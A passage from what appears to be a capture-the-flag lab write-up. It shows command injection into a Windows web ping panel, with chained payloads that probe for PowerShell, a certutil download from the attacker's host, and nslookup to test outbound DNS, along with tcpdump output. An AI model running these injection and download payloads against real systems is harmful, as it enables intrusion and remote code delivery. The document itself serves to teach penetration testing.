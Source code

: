 Not only does it ping me, but 5 times, the default in Windows. The ping I got from the panel the first time was 2 times, so the script likely ran something like `ping -n 2 127.0.0.1 & ping 10.10.14.14`.

#### PowerShell

I wanted to see if I could run PowerShell commands. Since `&&` and `||` are based on the error level returned, I can use that to determine if things are succeeding.

I’ll demonstrate in my Windows VM. When I have a successful PowerShell command, the ErrorLevel is 0. When I enter something that fails, it’s 1.

```

C:\Users\0xdf>powershell -c echo yay
yay

C:\Users\0xdf>echo %ERRORLEVEL%
0

C:\Users\0xdf>powershell -c echod yay
echod : The term 'echod' is not recognized as the name of a cmdlet, function, script file, or operable program. Check
the spelling of the name, or if a path was included, verify that the path is correct and try again.
At line:1 char:1
+ echod yay
+ ~~~~~
    + CategoryInfo          : ObjectNotFound: (echod:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException

C:\Users\0xdf>echo %ERRORLEVEL%
1

```

So if I enter `& dir || ping 10.10.14.14`, I don’t get pings in `tcpdump`, because the `dir` succeeds and ends the or. If I change that to `& dir && ping 10.10.14.14`, I do get pings.

So now I can see if I can run PowerShell. I’ll enter `& powershell -c echo test || ping 10.10.14.14`. Unfortunately, I get pings. So PowerShell is not available to me.

#### certutil

`certutil` is a good way to get files on Windows. I entered `& certutil -urlcache -split -f http://10.10.14.14/test.txt \windows\temp\test.txt|| ping 10.10.14.14` into the ping panel. Again, I got pings. This could fail for several reasons. Perhaps it can’t communicate out (I had a `nc` listening, and it didn’t reach me). But it also could have failed if it just couldn’t write to `\windows\temp\`.

#### nslookup

What about DNS outbound? I set up `tcpdump` and issued the following: `& nslookup 0xdf.com 10.10.14.14`. I got queries:

```

root@kali# tcpdump -ni tun0 udp port 53
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
09:32:41.022549 IP 10.10.10.106.64973 > 10.10.14.14.53: 1+ PTR? 14.14.10.10.in-addr.arpa. (42)
09:32:43.044754 IP 10.10.10.106.64974 > 10.10.14.14.53: 2+ A? 0xdf.com. (26)
09:32:45.035277 IP 10.10.10.106.64975 > 10.10.14.14.53: 3+ AAAA? 0xdf.com. (26)
09:32:47.051044 IP 10.10.10.106.64976 > 10.10.14.14.53: 4+ A? 0xdf.com. (26)
09:32:49.051423 IP 10.10.10.106.64977 > 10.10.14.14.53: 5+ AAAA? 0xdf.com. (26)

```
